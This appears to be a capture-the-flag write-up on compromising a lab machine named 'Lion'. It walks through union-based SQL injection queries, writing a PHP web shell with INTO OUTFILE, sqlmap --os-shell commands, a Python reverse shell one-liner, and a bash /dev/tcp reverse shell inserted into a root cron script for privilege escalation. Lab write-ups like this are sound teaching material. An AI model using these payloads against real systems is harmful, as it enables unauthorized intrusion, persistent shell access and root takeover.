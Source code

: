# Lion
![index image](../images/lion/index.webp)

## Recon
During the recon phase using Nmap and Feroxbuster, we found a few interesting things, such as an endpoint `/admine/includes` that contains some information, but we didn’t find anything suspicious. The Nmap scan didn’t reveal anything unusual either. There is a database and an RPC service open, but nothing significant was discovered.
<br>
![nmap image](../images/lion/nmap.webp)
![feroxbuster image](../images/lion/feroxbuster.webp)

Looking at the `/index.php` directory, we notice a search field that sends a POST request to `search.php` (the parameter used is `searchtitle`, as seen in the form). By attempting an SQL injection query, we can retrieve the first flag.
![search.php image](../images/lion/search.webp)

## Exploitation
This is an SQLi vulnerability. Therefore, we can exploit it either manually or by using SQLMap. Since my focus is on manual exploitation, I will only provide a few steps for using SQLMap. For manual exploitation, we’ll first attempt to determine the number of columns using the following query: `' order by 7 #`

After the `ORDER BY 8`, we get no results, so there are 7 columns. This indicates a union-based SQL injection. To retrieve some information, we will run the following queries:
* Query to retrieve the current database name `' union select 1,database(),3,4,5,6,7 #`. The database name is: news.
* In the following query `' union select 1,table_name,3,4,5,6,7 from information_schema.tables where table_schema = 'news' #`, we can retrieve the tables from the database. The following tables are present: `tbladmin`, `tblcategory`, `tblcomments`, `tblpages`, `tblposts`, `tblsubcategory`. Since we have an `/admin` endpoint, we can check if we can obtain the admin password.
* For get others columns, we have `' union select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name = 'tbladmin' #`. We have the following columns: `AdminUserName` and `AdminPassword`.
* We will retrieve the results from both columns using the follow query `' union select 1,AdminUserName,3,4,5,6,7 from tbladmin; #` and `' union select 1,AdminPassword,3,4,5,6,7 from tbladmin; #`.

We have the following user/password: `admin:$2y$12$hu9MjecXIjTfVg8VW8hTtOb8EWdd3muA773vZa7r5m0QepC9PJ4b`.
I ran it through Hash Identifier, and it’s bcrypt. I tried cracking it with Hashcat, but it didn’t work. So, let's attempt to place a shell in the `includes` directory instead.
`' union select 1,<?php system($_GET['cmd']);?>,3,4,5,6,7 into outfile "/var/www/html/includes/x.php #`
![shell 1 image](../images/lion/shell1.webp)

Alright, we have a PHP shell. However, to save time, I’ll list the SQLMap commands below. Using SQLMap, we can run: `python3 sqlmap.py -u "http://172.16.14.214/search.php" --data "searchtitle=teste"`
![sqlmap 1 image](../images/lion/sqlmap1.webp)

Listing the databases and the current database: `python3 sqlmap.py -u "http://172.16.14.214/search.php" --data "searchtitle=teste" --dbs --hex` and `python3 sqlmap.py -u "http://172.16.14.214/search.php" --data "searchtitle=teste" --current-db --hex`

As we observed manually, the admin password is hashed. Therefore, to upload a shell via SQLMap, we can use the following parameter: `--os-shell`. This option allows SQLMap to attempt to spawn an operating system shell on the target system if the SQL injection is successful.

`python3 sqlmap.py -u "http://172.16.14.214/search.php" --data "searchtitle=teste" --os-shell`

Now, we can get shell and reverse shell with python.
<br>
![sqlmap 2 image](../images/lion/shell2.webp)
![sqlmap 3 image](../images/lion/shell3.webp)
![sqlmap 4 image](../images/lion/shell4.webp)
```bash
export RHOST="IP";export RPORT=PORTA;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

## Post Exploitation
I ran `linpeas` to find potential vectors for privilege escalation. We found a `.sh` file (with misconfigured permissions) that is set to run as root in a cron job. This seems to be the likely path, but let’s examine the rest of the system to be sure.
![pos 1 image](../images/lion/pos1.webp)
![pos 2 image](../images/lion/pos2.webp)
![pos 3 image](../images/lion/pos3.webp)

There appears to be a logrotate version 3.8.6, which may be vulnerable. If our attempt with the cron job doesn’t work, we can try exploiting the logrotate vulnerability as an alternative.
![pos 4 image](../images/lion/pos4.webp)

Going back to the cron job, since we have write permissions on the file, we can modify it and apply the payload. After making the changes, we just need to wait for the cron job to execute and gain privilege escalation.

`/bin/bash -c 'sh -i >& /dev/tcp/ip/porta 0>&1'`
![pos 5 image](../images/lion/pos5.webp)
![pos 6 image](../images/lion/pos6.webp)